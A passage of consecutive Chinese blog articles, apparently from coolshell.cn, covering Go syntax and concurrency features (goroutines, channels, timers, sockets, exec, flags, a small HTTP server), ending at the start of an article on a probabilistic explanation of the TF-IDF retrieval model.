    }
    fmt.Println(total)
}
func main() {
    sum(1, 2)
    sum(1, 2, 3)

    //传数组
    nums := []int{1, 2, 3, 4}
    sum(nums...)
}
```

**函数闭包**

nextNum这个函数返回了一个匿名函数，这个匿名函数记住了nextNum中i+j的值，并改变了i,j的值，于是形成了一个闭包的用法

```
func nextNum() func() int {
    i,j := 1,1
    return func() int {
        var tmp = i+j
        i, j = j, tmp
        return tmp
    }
}
//main函数中是对nextNum的调用，其主要是打出下一个斐波拉契数
func main(){
    nextNumFunc := nextNum()
    for i:=0; i<10; i++ {
        fmt.Println(nextNumFunc())
    }
}
```

**函数的递归**

和c基本是一样的

```
func fact(n int) int {
    if n == 0 {
        return 1
    }
    return n * fact(n-1)
}

func main() {
    fmt.Println(fact(7))
}
```

#### 结构体

Go的结构体和C的基本上一样，不过在初始化时有些不一样，Go支持带名字的初始化。

```
type Person struct {
    name string
    age  int
    email string
}

func main() {
    //初始化
    person := Person{"Tom", 30, "tom@gmail.com"}
    person = Person{name:"Tom", age: 30, email:"tom@gmail.com"}

    fmt.Println(person) //输出 {Tom 30 tom@gmail.com}

    pPerson := &person

    fmt.Println(pPerson) //输出 &{Tom 30 tom@gmail.com}

    pPerson.age = 40
    person.name = "Jerry"
    fmt.Println(person) //输出 {Jerry 40 tom@gmail.com}
}
```

#### 结构体方法

不多说了，看代码吧。

注意：Go语言中没有public, protected, private的关键字，所以，**如果你想让一个方法可以被别的包访问的话，你需要把这个方法的第一个字母大写。这是一种约定**。

```
type rect struct {
    width, height int
}

func (r *rect) area() int { //求面积
    return r.width * r.height
}

func (r *rect) perimeter() int{ //求周长
    return 2*(r.width + r.height)
}

func main() {
    r := rect{width: 10, height: 15}

    fmt.Println("面积: ", r.area())
    fmt.Println("周长: ", r.perimeter())

    rp := &r
    fmt.Println("面积: ", rp.area())
    fmt.Println("周长: ", rp.perimeter())
}
```

#### 接口和多态

接口意味着多态，下面是一个经典的例子，不用多说了，自己看代码吧。

```
//---------- 接 口 --------//
type shape interface {
    area() float64 //计算面积
    perimeter() float64 //计算周长
}

//--------- 长方形 ----------//
type rect struct {
    width, height float64
}

func (r *rect) area() float64 { //面积
    return r.width * r.height
}

func (r *rect) perimeter() float64 { //周长
    return 2*(r.width + r.height)
}

//----------- 圆  形 ----------//
type circle struct {
    radius float64
}

func (c *circle) area() float64 { //面积
    return math.Pi * c.radius * c.radius
}

func (c *circle) perimeter() float64 { //周长
    return 2 * math.Pi * c.radius
}

// ----------- 接口的使用 -----------//
func interface_test() {
    r := rect {width:2.9, height:4.8}
    c := circle {radius:4.3}

    s := []shape{&r, &c} //通过指针实现

    for _, sh := range s {
        fmt.Println(sh)
        fmt.Println(sh.area())
        fmt.Println(sh.perimeter())
    }
}
```

#### 错误处理 – Error接口

函数错误返回可能是C/C++时最让人纠结的东西的，Go的多值返回可以让我们更容易的返回错误，其可以在返回一个常规的返回值之外，还能轻易地返回一个详细的错误描述。通常情况下，错误的类型是error，它有一个内建的接口。

```
type error interface {
    Error() string
}
```

还是看个示例吧：

```
package main

import "fmt"
import "errors"

//自定义的出错结构
type myError struct {
    arg  int
    errMsg string
}
//实现Error接口
func (e *myError) Error() string {
    return fmt.Sprintf("%d - %s", e.arg, e.errMsg)
}

//两种出错
func error_test(arg int) (int, error) {
    if arg < 0  {
         return -1, errors.New("Bad Arguments - negtive!")
     }else if arg >256 {
        return -1, &myError{arg, "Bad Arguments - too large!"}
    }
    return arg*arg, nil
}

//相关的测试
func main() {
    for _, i := range []int{-1, 4, 1000} {
        if r, e := error_test(i); e != nil {
            fmt.Println("failed:", e)
        } else {
            fmt.Println("success:", r)
        }
    }
}
```

程序运行后输出：

```
failed: Bad Arguments - negtive!
success: 16
failed: 1000 - Bad Arguments - too large!
```

#### 错误处理 – Defer

下面的程序对于每一个熟悉C语言的人来说都不陌生（有资源泄露的问题），C++使用RAII来解决这种问题。

```
func CopyFile(dstName, srcName string) (written int64, err error) {
    src, err := os.Open(srcName)
    if err != nil {
        return
    }

    dst, err := os.Create(dstName)
    if err != nil {
        return
    }

    written, err = io.Copy(dst, src)
    dst.Close()
    src.Close()
    return
}
```

Go语言引入了Defer来确保那些被打开的文件能被关闭。如下所示：（这种解决方式还是比较优雅的）

<

pre class=”EnlighterJSRAW” data-enlighter-language=”golang” data-enlighter-highlight=”6,12″>
func CopyFile(dstName, srcName string) (written int64, err error) {
src, err := os.Open(srcName)
if err != nil {
return
}
defer src.Close()

```
dst, err := os.Create(dstName)
if err != nil {
    return
}
defer dst.Close()

return io.Copy(dst, src)
```

}[/c]

Go的defer语句预设一个函数调用（延期的函数），该调用在函数执行defer返回时立刻运行。该方法显得不同常规，但却是处理上述情况很有效，无论函数怎样返回，都必须进行资源释放。

我们再来看一个defer函数的示例：

```
for i := 0; i < 5; i++ {
    defer fmt.Printf("%d ", i)
}
```

被延期的函数以后进先出（LIFO）的顺行执行，因此以上代码在返回时将打印4 3 2 1 0。

总之，我个人觉得defer的函数行为有点怪异，我现在还没有完全搞清楚。

#### 错误处理 – Panic/Recover

对于不可恢复的错误，Go提供了一个内建的panic函数，它将创建一个运行时错误并使程序停止（相当暴力）。该函数接收一个任意类型（往往是字符串）作为程序死亡时要打印的东西。当编译器在函数的结尾处检查到一个panic时，就会停止进行常规的return语句检查。

下面的仅仅是一个示例。实际的库函数应避免panic。如果问题可以容忍，最好是让事情继续下去而不是终止整个程序。

```
var user = os.Getenv("USER")

func init() {
    if user == "" {
        panic("no value for $USER")
    }
}
```

当panic被调用时，它将立即停止当前函数的执行并开始逐级解开函数堆栈，同时运行所有被defer的函数。如果这种解开达到堆栈的顶端，程序就死亡了。但是，也可以使用内建的recover函数来重新获得Go程的控制权并恢复正常的执行。 对recover的调用会通知解开堆栈并返回传递到panic的参量。由于仅在解开期间运行的代码处在被defer的函数之内，recover仅在被延期的函数内部才是有用的。

你可以简单地理解为recover就是用来捕捉Painc的，防止程序一下子就挂掉了。

下面是一个例程，很简单了，不解释了

```
func g(i int) {
    if i>1 {
        fmt.Println("Panic!")
        panic(fmt.Sprintf("%v", i))
    }

}

func f() {
    defer func() {
        if r := recover(); r != nil {
            fmt.Println("Recovered in f", r)
        }
    }()

    for i := 0; i < 4; i++ {
        fmt.Println("Calling g with ", i)
        g(i)
        fmt.Println("Returned normally from g.")
     }
}

func main() {
    f()
    fmt.Println("Returned normally from f.")
}
```

运行结果如下：（我们可以看到Painc后的for循环就没有往下执行了，但是main的程序还在往下走）

```
Calling g with  0
Returned normally from g.
Calling g with  1
Returned normally from g.
Calling g with  2
Panic!
Recovered in f 2
Returned normally from f.
```

你习惯这种编程方式吗？我觉得有点诡异。呵呵。

好了，上面是是一Go语言相关的编程语法的介绍，我没有事无巨细，只是让你了解一下Go语言是长什么样的。**当然，这还没完，请期待下篇——Go语言的特性**。

# GO 语言简介（下）— 特性

#####  [2012年11月07日 ](https://coolshell.cn/articles/8489.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [95 条评论](https://coolshell.cn/articles/8489.html#comments) 100,712 人阅读

希望你看到这篇文章的时候还是在公交车和地铁上正在上下班的时间，我希望我的这篇文章可以让你利用这段时间了解一门语言。当然，希望你不会因为看我的文章而错过站。呵呵。

如果你还不了解Go语言的语法，还请你移步先看一下上篇——《**[Go语言简介（上）：语法](https://coolshell.cn/articles/8460.html)**》


目录


[goroutine](https://coolshell.cn/articles/8489.html#goroutine)[goroutine的并发安全性](https://coolshell.cn/articles/8489.html#goroutine的并发安全性)[原子操作](https://coolshell.cn/articles/8489.html#原子操作)[Channel 信道](https://coolshell.cn/articles/8489.html#Channel_信道)[定时器](https://coolshell.cn/articles/8489.html#定时器)[Socket编程](https://coolshell.cn/articles/8489.html#Socket编程)[系统调用](https://coolshell.cn/articles/8489.html#系统调用)[执行命令行](https://coolshell.cn/articles/8489.html#执行命令行)[命令行参数](https://coolshell.cn/articles/8489.html#命令行参数)[一个简单的HTTP Server](https://coolshell.cn/articles/8489.html#一个简单的HTTP_Server)

#### goroutine

GoRoutine主要是使用go关键字来调用函数，你还可以使用匿名函数，如下所示：


```
package main
import "fmt"

func f(msg string) {
    fmt.Println(msg)
}

func main(){
    go f("goroutine")

    go func(msg string) {
        fmt.Println(msg)
    }("going")
}
```

我们再来看一个示例，下面的代码中包括很多内容，包括时间处理，随机数处理，还有goroutine的代码。如果你熟悉C语言，你应该会很容易理解下面的代码。

你可以简单的把go关键字调用的函数想像成pthread_create。下面的代码使用for循环创建了3个线程，每个线程使用一个随机的Sleep时间，然后在routine()函数中会输出一些线程执行的时间信息。

```
package main

import "fmt"
import "time"
import "math/rand"

func routine(name string, delay time.Duration) {

    t0 := time.Now()
    fmt.Println(name, " start at ", t0)

    time.Sleep(delay)

    t1 := time.Now()
    fmt.Println(name, " end at ", t1)

    fmt.Println(name, " lasted ", t1.Sub(t0))
}

func main() {

    //生成随机种子
    rand.Seed(time.Now().Unix())

    var name string
    for i:=0; i<3; i++{
        name = fmt.Sprintf("go_%02d", i) //生成ID
        //生成随机等待时间，从0-4秒
        go routine(name, time.Duration(rand.Intn(5)) * time.Second)
    }

    //让主进程停住，不然主进程退了，goroutine也就退了
    var input string
    fmt.Scanln(&input)
    fmt.Println("done")
}
```

运行的结果可能是：

```
go_00  start at  2012-11-04 19:46:35.8974894 +0800 +0800
go_01  start at  2012-11-04 19:46:35.8974894 +0800 +0800
go_02  start at  2012-11-04 19:46:35.8974894 +0800 +0800
go_01  end at  2012-11-04 19:46:36.8975894 +0800 +0800
go_01  lasted  1.0001s
go_02  end at  2012-11-04 19:46:38.8987895 +0800 +0800
go_02  lasted  3.0013001s
go_00  end at  2012-11-04 19:46:39.8978894 +0800 +0800
go_00  lasted  4.0004s
```

#### goroutine的并发安全性

关于goroutine，我试了一下，无论是Windows还是Linux，基本上来说是用操作系统的线程来实现的。不过，goroutine有个特性，也就是说，**如果一个goroutine没有被阻塞，那么别的goroutine就不会得到执行**。这并不是真正的并发，如果你要真正的并发，你需要在你的main函数的第一行加上下面的这段代码：

```
import "runtime"
...
runtime.GOMAXPROCS(4)
```

还是让我们来看一个有并发安全性问题的示例（注意：我使用了C的方式来写这段Go的程序）

这是一个经常出现在教科书里卖票的例子，我启了5个goroutine来卖票，卖票的函数sell_tickets很简单，就是随机的sleep一下，然后对全局变量total_tickets作减一操作。

```
package main

import "fmt"
import "time"
import "math/rand"
import "runtime"

var total_tickets int32 = 10;

func sell_tickets(i int){
    for{
        if total_tickets > 0 { //如果有票就卖
            time.Sleep( time.Duration(rand.Intn(5)) * time.Millisecond)
            total_tickets-- //卖一张票
            fmt.Println("id:", i, "  ticket:", total_tickets)
        }else{
            break
        }
    }
}

func main() {
    runtime.GOMAXPROCS(4) //我的电脑是4核处理器，所以我设置了4
    rand.Seed(time.Now().Unix()) //生成随机种子

    for i := 0; i < 5; i++ { //并发5个goroutine来卖票
         go sell_tickets(i)
    }
    //等待线程执行完
    var input string
    fmt.Scanln(&input)
    fmt.Println(total_tickets, "done") //退出时打印还有多少票
}
```

这个程序毋庸置疑有并发安全性问题，所以执行起来你会看到下面的结果：

```
$go run sell_tickets.go
id: 0   ticket: 9  
id: 0   ticket: 8  
id: 4   ticket: 7  
id: 1   ticket: 6  
id: 3   ticket: 5  
id: 0   ticket: 4  
id: 3   ticket: 3  
id: 2   ticket: 2  
id: 0   ticket: 1  
id: 3   ticket: 0  
id: 1   ticket: -1  
id: 4   ticket: -2  
id: 2   ticket: -3  
id: 0   ticket: -4  
-4 done
```

可见，我们需要使用上锁，我们可以使用互斥量来解决这个问题。下面的代码，我只列出了修改过的内容：

```
 package main
import "fmt"
import "time"
import "math/rand"
import "sync"
import "runtime"

var total_tickets int32 = 10;
var mutex = &sync.Mutex{} //可简写成：var mutex sync.Mutex

func sell_tickets(i int){
    for total_tickets>0 {
        mutex.Lock()
        if total_tickets > 0 {
            time.Sleep( time.Duration(rand.Intn(5)) * time.Millisecond)
            total_tickets--
            fmt.Println(i, total_tickets)
        }
        mutex.Unlock()
    }
}
.......
......
```

#### 原子操作

说到并发就需要说说原子操作，相信大家还记得我写的那篇《[无锁队列的实现](https://coolshell.cn/articles/8239.html)》一文，里面说到了一些CAS – CompareAndSwap的操作。Go语言也支持。你可以看一下相当的文档

我在这里就举一个很简单的示例：下面的程序有10个goroutine，每个会对cnt变量累加20次，所以，最后的cnt应该是200。如果没有atomic的原子操作，那么cnt将有可能得到一个小于200的数。

下面使用了atomic操作，所以是安全的。

```
package main

import "fmt"
import "time"
import "sync/atomic"

func main() {
    var cnt uint32 = 0
    for i := 0; i < 10; i++ {
        go func() {
            for i:=0; i<20; i++ {
                time.Sleep(time.Millisecond)
                atomic.AddUint32(&cnt, 1)
            }
        }()
    }
    time.Sleep(time.Second)//等一秒钟等goroutine完成
    cntFinal := atomic.LoadUint32(&cnt)//取数据
    fmt.Println("cnt:", cntFinal)
}
```

这样的函数还有很多，参看[go的atomic包文档](https://golang.org/pkg/sync/atomic/)（被墙）

#### Channel 信道

Channal是什么？Channal就是用来通信的，就像Unix下的管道一样，在Go中是这样使用Channel的。

下面的程序演示了一个goroutine和主程序通信的例程。这个程序足够简单了。

```
package main

import "fmt"

func main() {
    //创建一个string类型的channel
    channel := make(chan string)

    //创建一个goroutine向channel里发一个字符串
    go func() { channel <- "hello" }()

    msg := <- channel
    fmt.Println(msg)
}[
```

**指定channel的buffer**

指定buffer的大小很简单，看下面的程序：

```
package main
import "fmt"

func main() {
    channel := make(chan string, 2)

    go func() {
        channel <- "hello"
        channel <- "World"
    }()

    msg1 := <-channel
    msg2 := <-channel
    fmt.Println(msg1, msg2)
}
```

**Channel的阻塞**

注意，channel默认上是阻塞的，也就是说，如果Channel满了，就阻塞写，如果Channel空了，就阻塞读。于是，我们就可以使用这种特性来同步我们的发送和接收端。

下面这个例程说明了这一点，代码有点乱，不过我觉得不难理解。

```
package main

import "fmt"
import "time"

func main() {

    channel := make(chan string) //注意: buffer为1

    go func() {
        channel <- "hello"
        fmt.Println("write \"hello\" done!")

        channel <- "World" //Reader在Sleep，这里在阻塞
        fmt.Println("write \"World\" done!")

        fmt.Println("Write go sleep...")
        time.Sleep(3*time.Second)
        channel <- "channel"
        fmt.Println("write \"channel\" done!")
    }()

    time.Sleep(2*time.Second)
    fmt.Println("Reader Wake up...")

    msg := <-channel
    fmt.Println("Reader: ", msg)

    msg = <-channel
    fmt.Println("Reader: ", msg)

    msg = <-channel //Writer在Sleep，这里在阻塞
    fmt.Println("Reader: ", msg)
}
```

上面的代码输出的结果如下：

```
Reader Wake up...
Reader:  hello
write "hello" done!
write "World" done!
Write go sleep...
Reader:  World
write "channel" done!
Reader:  channel
```

**Channel阻塞的这个特性还有一个好处是，可以让我们的goroutine在运行的一开始就阻塞在从某个channel领任务，这样就可以作成一个类似于线程池一样的东西。关于这个程序我就不写了。我相信你可以自己实现的。**

**多个Channel的select**

```
package main
import "time"
import "fmt"

func main() {
    //创建两个channel - c1 c2
    c1 := make(chan string)
    c2 := make(chan string)

    //创建两个goruntine来分别向这两个channel发送数据
    go func() {
        time.Sleep(time.Second * 1)
        c1 <- "Hello"
    }()
    go func() {
        time.Sleep(time.Second * 1)
        c2 <- "World"
    }()

    //使用select来侦听两个channel
    for i := 0; i < 2; i++ {
        select {
        case msg1 := <-c1:
            fmt.Println("received", msg1)
        case msg2 := <-c2:
            fmt.Println("received", msg2)
        }
    }
}
```

注意：上面的select是阻塞的，所以，才搞出ugly的for i <2这种东西**。
**

**Channel select阻塞的Timeout**

解决上述那个for循环的问题，一般有两种方法：一种是阻塞但有timeout，一种是无阻塞。我们来看看如果给select设置上timeout的。

```
    for {
        timeout_cnt := 0
        select {
        case msg1 := <-c1:
            fmt.Println("msg1 received", msg1)
        case msg2 := <-c2:
            fmt.Println("msg2 received", msg2)
        case  <-time.After(time.Second * 30)：
            fmt.Println("Time Out")
            timout_cnt++
        }
        if time_cnt > 3 {
            break
        }
    }
```

上面代码中高亮的代码主要是用来让select返回的，注意 case中的time.After事件。

**Channel的无阻塞**

好，我们再来看看无阻塞的channel，其实也很简单，就是在select中加入default，如下所示：

```
    for {
        select {
        case msg1 := <-c1:
            fmt.Println("received", msg1)
        case msg2 := <-c2:
            fmt.Println("received", msg2)
        default: //default会导致无阻塞
            fmt.Println("nothing received!")
            time.Sleep(time.Second)
        }
    }
```

**Channel的关闭**

关闭Channel可以通知对方内容发送完了，不用再等了。参看下面的例程：

```
package main

import "fmt"
import "time"
import "math/rand"

func main() {

    channel := make(chan string)
    rand.Seed(time.Now().Unix())

    //向channel发送随机个数的message
    go func () {
        cnt := rand.Intn(10)
        fmt.Println("message cnt :", cnt)
        for i:=0; i<cnt; i++{
            channel <- fmt.Sprintf("message-%2d", i)
        }
        close(channel) //关闭Channel
    }()

    var more bool = true
    var msg string
    for more {
        select{
        //channel会返回两个值，一个是内容，一个是还有没有内容
        case msg, more = <- channel:
            if more {
                fmt.Println(msg)
            }else{
                fmt.Println("channel closed!")
            }
        }
    }
}
```

#### 定时器

Go语言中可以使用time.NewTimer或time.NewTicker来设置一个定时器，这个定时器会绑定在你的当前channel中，通过channel的阻塞通知机器来通知你的程序。

下面是一个timer的示例。

```
package main

import "time"
import "fmt"

func main() {
    timer := time.NewTimer(2*time.Second)

    <- timer.C
    fmt.Println("timer expired!")
}
```

上面的例程看起来像一个Sleep，是的，不过Timer是可以Stop的。你需要注意Timer只通知一次。如果你要像C中的Timer能持续通知的话，你需要使用Ticker。下面是Ticker的例程：

```
package main

import "time"
import "fmt"

func main() {
    ticker := time.NewTicker(time.Second)

    for t := range ticker.C {
        fmt.Println("Tick at", t)
    }
}
```

上面的这个ticker会让你程序进入死循环，我们应该放其放在一个goroutine中。下面这个程序结合了timer和ticker

```
package main

import "time"
import "fmt"

func main() {

    ticker := time.NewTicker(time.Second)

    go func () {
        for t := range ticker.C {
            fmt.Println(t)
        }
    }()

    //设置一个timer，10钞后停掉ticker
    timer := time.NewTimer(10*time.Second)
    <- timer.C

    ticker.Stop()
    fmt.Println("timer expired!")
}
```

#### Socket编程

下面是我尝试的一个Echo Server的Socket代码，感觉还是挺简单的。

**Server端**

```
package main

import (
    "net"
    "fmt"
    "io"
)

const RECV_BUF_LEN = 1024

func main() {
    listener, err := net.Listen("tcp", "0.0.0.0:6666")//侦听在6666端口
    if err != nil {
        panic("error listening:"+err.Error())
    }
    fmt.Println("Starting the server")

    for {
        conn, err := listener.Accept() //接受连接
        if err != nil {
            panic("Error accept:"+err.Error())
        }
        fmt.Println("Accepted the Connection :", conn.RemoteAddr())
        go EchoServer(conn)
    }
}

func EchoServer(conn net.Conn) {
    buf := make([]byte, RECV_BUF_LEN)
    defer conn.Close()

    for {
        n, err := conn.Read(buf);
        switch err {
            case nil:
                conn.Write( buf[0:n] )
            case io.EOF:
                fmt.Printf("Warning: End of data: %s \n", err);
                return
            default:
                fmt.Printf("Error: Reading data : %s \n", err);
                return
        }
     }
}
```

**Client端**

```
package main

import (
    "fmt"
    "time"
    "net"
)

const RECV_BUF_LEN = 1024

func main() {
    conn,err := net.Dial("tcp", "127.0.0.1:6666")
    if err != nil {
        panic(err.Error())
    }
    defer conn.Close()

    buf := make([]byte, RECV_BUF_LEN)

    for i := 0; i < 5; i++ {
        //准备要发送的字符串
        msg := fmt.Sprintf("Hello World, %03d", i)
        n, err := conn.Write([]byte(msg))
        if err != nil {
            println("Write Buffer Error:", err.Error())
            break
        }
        fmt.Println(msg)

        //从服务器端收字符串
        n, err = conn.Read(buf)
        if err !=nil {
            println("Read Buffer Error:", err.Error())
            break
        }
        fmt.Println(string(buf[0:n]))

        //等一秒钟
        time.Sleep(time.Second)
    }
}
```

#### 系统调用

Go语言那么C，所以，一定会有一些系统调用。Go语言主要是通过两个包完成的。一个是[os包](https://golang.org/pkg/os/)，一个是[syscall包](https://golang.org/pkg/syscall/)。（注意，链接被墙）

这两个包里提供都是Unix-Like的系统调用，

- syscall里提供了什么Chroot/Chmod/Chmod/Chdir…，Getenv/Getgid/Getpid/Getgroups/Getpid/Getppid…，还有很多如Inotify/Ptrace/Epoll/Socket/…的系统调用。

- os包里提供的东西不多，主要是一个跨平台的调用。它有三个子包，Exec（运行别的命令）, Signal（捕捉信号）和User（通过uid查name之类的）

syscall包的东西我不举例了，大家可以看看《Unix高级环境编程》一书。

os里的取几个例：

**环境变量**

```
package main

import "os"
import "strings"


func main() {
    os.Setenv("WEB", "https://coolshell.cn") //设置环境变量
    println(os.Getenv("WEB")) //读出来

    for _, env := range os.Environ() { //穷举环境变量
        e := strings.Split(env, "=")
        println(e[0], "=", e[1])
    }
}
```

#### 执行命令行

下面是一个比较简单的示例

```
package main
import "os/exec"
import "fmt"
func main() {
    cmd := exec.Command("ping", "127.0.0.1")
    out, err := cmd.Output()
    if err!=nil {
        println("Command Error!", err.Error())
        return
    }
    fmt.Println(string(out))
}
```

正规一点的用来处理标准输入和输出的示例如下：

```
package main

import (
    "strings"
    "bytes"
    "fmt"
    "log"
    "os/exec"
)

func main() {
    cmd := exec.Command("tr", "a-z", "A-Z")
    cmd.Stdin = strings.NewReader("some input")
    var out bytes.Buffer
    cmd.Stdout = &out
    err := cmd.Run()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("in all caps: %q\n", out.String())
}
```

#### 命令行参数

Go语言中处理命令行参数很简单：(使用os的Args就可以了)

```
func main() {
    args := os.Args
    fmt.Println(args) //带执行文件的
    fmt.Println(args[1:]) //不带执行文件的
}
```

在Windows下，如果运行结果如下：

```
C:\Projects\Go>go run args.go aaa bbb ccc ddd[C:\Users\haoel\AppData\Local\Temp\go-build742679827\command-line-arguments_obj\a.out.exe aaa bbb ccc ddd][aaa bbb ccc ddd]
```

那么，如果我们要搞出一些像 mysql -uRoot -hLocalhost -pPwd 或是像 cc -O3 -Wall -o a a.c 这样的命令行参数我们怎么办？Go提供了一个package叫flag可以容易地做到这一点

```
package main
import "flag"
import "fmt"

func main() {

    //第一个参数是“参数名”，第二个是“默认值”，第三个是“说明”。返回的是指针
    host := flag.String("host", "coolshell.cn", "a host name ")
    port := flag.Int("port", 80, "a port number")
    debug := flag.Bool("d", false, "enable/disable debug mode")

    //正式开始Parse命令行参数
    flag.Parse()

    fmt.Println("host:", *host)
    fmt.Println("port:", *port)
    fmt.Println("debug:", *debug)
}
```

执行起来会是这个样子：

```
#如果没有指定参数名，则使用默认值
$ go run flagtest.go
host: coolshell.cn
port: 80
debug: false

#指定了参数名后的情况
$ go run flagtest.go -host=localhost -port=22 -d
host: localhost
port: 22
debug: true

#用法出错了（如：使用了不支持的参数，参数没有=）
$ go build flagtest.go
$ ./flagtest -debug -host localhost -port=22
flag provided but not defined: -debug
Usage of flagtest:
  -d=false: enable/disable debug mode
  -host="coolshell.cn": a host name
  -port=80: a port number
exit status 2
```

感觉还是挺不错的吧。

#### 一个简单的HTTP Server

代码胜过千言万语。呵呵。这个小程序让我又找回以前用C写CGI的时光了。（Go的官方文档是《**[Writing Web Applications](https://golang.org/doc/articles/wiki/)**》）

```
package main

import (
    "fmt"
    "net/http"
    "io/ioutil"
    "path/filepath"
)

const http_root = "/home/haoel/coolshell.cn/"

func main() {
    http.HandleFunc("/", rootHandler)
    http.HandleFunc("/view/", viewHandler)
    http.HandleFunc("/html/", htmlHandler)

    http.ListenAndServe(":8080", nil)
}

//读取一些HTTP的头
func rootHandler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "rootHandler: %s\n", r.URL.Path)
    fmt.Fprintf(w, "URL: %s\n", r.URL)
    fmt.Fprintf(w, "Method: %s\n", r.Method)
    fmt.Fprintf(w, "RequestURI: %s\n", r.RequestURI )
    fmt.Fprintf(w, "Proto: %s\n", r.Proto)
    fmt.Fprintf(w, "HOST: %s\n", r.Host) 
}

//特别的URL处理
func viewHandler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "viewHandler: %s", r.URL.Path)
}

//一个静态网页的服务示例。（在http_root的html目录下）
func htmlHandler(w http.ResponseWriter, r *http.Request) {
    fmt.Printf("htmlHandler: %s\n", r.URL.Path)
    
    filename := http_root + r.URL.Path
    fileext := filepath.Ext(filename)

    content, err := ioutil.ReadFile(filename)
    if err != nil {
        fmt.Printf("   404 Not Found!\n")
        w.WriteHeader(http.StatusNotFound)
        return
    }
    
    var contype string
    switch fileext {
        case ".html", "htm":
            contype = "text/html"
        case ".css":
            contype = "text/css"
        case ".js":
            contype = "application/javascript"
        case ".png":
            contype = "image/png"
        case ".jpg", ".jpeg":
            contype = "image/jpeg"
        case ".gif":
            contype = "image/gif"
        default: 
            contype = "text/plain"
    }
    fmt.Printf("ext %s, ct = %s\n", fileext, contype)
    
    w.Header().Set("Content-Type", contype)
    fmt.Fprintf(w, "%s", content)
    
}
```

Go的功能库有很多，大家自己慢慢看吧。**我再吐个槽——Go的文档真不好读。例子太少了**。

先说这么多吧。这是我周末两天学Go语言学到的东西，写得太仓促了，而且还有一些东西理解不到位，还大家请指正！

（全文完）

# TF-IDF模型的概率解释

#####  [2012年10月24日 ](https://coolshell.cn/articles/8422.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [51 条评论](https://coolshell.cn/articles/8422.html#comments) 53,275 人阅读

**（感谢** [@猫叔shiro](http://weibo.com/weidagang)**（以前的todd） 投递此文）**

目录


[信息检索概述](https://coolshell.cn/articles/8422.html#信息检索概述)[tf-idf模型](https://coolshell.cn/articles/8422.html#tf-idf模型)[信息检索问题的概率视角](https://coolshell.cn/articles/8422.html#信息检索问题的概率视角)[盒子小球模型](https://coolshell.cn/articles/8422.html#盒子小球模型)[文档先验概率P(d)与PageRank](https://coolshell.cn/articles/8422.html#文档先验概率Pd与PageRank)[词的先验概率P(w)](https://coolshell.cn/articles/8422.html#词的先验概率Pw)[词代表文档主题的条件概率P(w | d)](https://coolshell.cn/articles/8422.html#词代表文档主题的条件概率Pw_d)[词的信息量和idf](https://coolshell.cn/articles/8422.html#词的信息量和idf)[多关键词](https://coolshell.cn/articles/8422.html#多关键词)[总结](https://coolshell.cn/articles/8422.html#总结)

#### 信息检索概述

信息检索是当前应用十分广泛的一种技术，论文检索、搜索引擎都属于信息检索的范畴。通常，人们把信息检索问题抽象为：在文档集合D上，对于由关键词w[1] … w[k]组成的查询串q，返回一个按查询q和文档d匹配度relevance(q, d)排序的相关文档列表D’。

对于这一问题，先后出现了布尔模型、向量模型等各种经典的信息检索模型，它们从不同的角度提出了自己的一套解决方案。布尔模型以集合的布尔运算为基础，查询效率高，但模型过于简单，无法有效地对不同文档进行排序，查询效果不佳。向量模型把文档和查询串都视为词所构成的多维向量，而文档与查询的相关性即对应于向量间的夹角。不过，由于通常词的数量巨大，向量维度非常高，而大量的维度都是0，计算向量夹角的效果并不好。另外，庞大的计算量也使得向量模型几乎不具有在互联网搜索引擎这样海量数据集上实施的可行性。

#### tf-idf模型

目前，真正在搜索引擎等实际应用中广泛使用的是tf-idf模型。tf-idf模型的主要思想是：如果词w在一篇文档d中出现的频率高，并且在其他文档中很少出现，则认为词w具有很好的区分能力，适合用来把文章d和其他文章区分开来。该模型主要包含了两个因素：


1) 词w在文档d中的词频tf (Term Frequency)，即词w在文档d中出现次数count(w, d)和文档d中总词数size(d)的比值：

```
tf(w,d) = count(w, d) / size(d) 
```

2) 词w在整个文档集合中的逆向文档频率idf (Inverse Document Frequency)，即文档总数n与词w所出现文件数docs(w, D)比值的对数:

```
idf = log(n / docs(w, D)) 
```

tf-idf模型根据tf和idf为每一个文档d和由关键词w[1]…w[k]组成的查询串q计算一个权值，用于表示查询串q与文档d的匹配度：

```
tf-idf(q, d) 
= sum { i = 1..k | tf-idf(w[i], d) } 
= sum { i = 1..k | tf(w[i], d) * idf(w[i]) } 
```

#### 信息检索问题的概率视角

直观上看，tf描述的是文档中词出现的频率；而idf是和词出现文档数相关的权重。我们比较容易定性地理解tf-idf的基本思想，但具体到tf-idf的一些细节却并不是那么容易说清楚为什么。比如：

1) 为什么tf是count(w, d) / size(d)？能不能是log(count(w, d) / size(d))等其他形式？
2) 为什么idf是一个log形式？
3) 为什么tf和idf之间是乘积关系，而不是加法或指数关系？
4) 为什么多个关键词的tf-idf值是加法关系，而不是乘法或者指数关系？
5) 除了tf-idf值，Google还会计算网页的PageRank值，二者相乘得到最后的权值，为什么是乘法，而不是加法或指数？

据说，最初甚至tf-idf的提出者自己也没有对诸如“为什么idf是log形式”这个问题给出有力的解释，虽然后来有人从信息论的角度对idf的log形式给出了令人信服的解释，但是剩下的其他一些疑问仍然存在。在我了解的范围内，对于tf-idf模型还没有一个真正统一完整的理论解释。在试图为tf-idf找到更好的理论解释的过程中，我意识到对tf-idf模型种种疑问的根源在于tf-idf试图表达的“查询q和文档的匹配度”本身就有一定的模糊性，什么叫做“匹配度”，这就有很大的自由发挥空间。如果说向量模型的用向量夹角来表示匹配度概念还有一定的理论基础，那么用tf-idf来表达匹配度就有点“与其说是科学，不如说是艺术”的味道。

更进一步，其实，信息检索问题的抽象方式“在文档集合D上，对于给定查询串q，返回一个按查询q和文档d匹配度relevance(q, d)排序的相关文档列表D’”本身是值得反思的。我们应当考虑抛弃“匹配度”这种模糊的目标，从根源上寻求一种具有明确数学意义的目标。如果我们从概率视角来看，**把“查询串q和文档d的匹配度”问题转换为“当查询串是q时，用户期望获得文档d的概率”问题**，信息检索问题就清晰多了。一方面这个概率描述是站在人的角度来看待信息检索问题的，更加贴近实际的用户体验；另一方面，概率本身是有明确数学意义的，这样我们就首先从目标上对问题进行了严格化。

下面，我将通过一个模型，从概率的视角，一边解释tf-idf的概率意义，一边指出其不合理之处。

#### 盒子小球模型

